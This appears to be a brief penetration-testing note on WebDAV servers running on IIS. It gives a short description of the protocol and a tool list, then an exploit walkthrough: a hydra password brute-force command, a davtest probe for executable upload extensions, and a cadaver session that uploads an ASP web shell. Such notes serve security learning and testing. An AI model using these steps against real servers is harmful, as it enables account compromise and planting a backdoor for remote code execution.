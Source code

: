 ```yaml
---
title: 'WebDAV'
description: 'Web-based Distributed Authoring and versioning'
pubDate: 'Jul 03 2022'
heroImage: '/ldapi.jpg'
tag: ['windows', 'webdav']
---
```


## Information

- WeDAV is a set of extensions to the HTTP protocol which allow users to collaboratively edit and manage files on remote web servers.

- WebDAV essentially enables a web server to function as a file servert for collaborative authoring.

- WebDAV runs on top Microsoft IIS on ports 80/443.

- Implements auth to connecto a WebDAV server.

## Tools

- davtest
- cadaver
- hydra

## Exploit

```bash
hydra -L /usr/share/wordlists/metasploit/common_users.txt -P /usr/pass.txt target http-get /webdav/
```

Checking for test file execution, which extension can be uploaded for RCE.

```bash
davtest -auth bob:pass123 -url http://target/webdav
```

Inserting our payload.

```bash
cadaver http://target/webdav
Username: bob
Password:

dav:/webdav/> put /usr/share/webshells/asp/webshell.asp
```
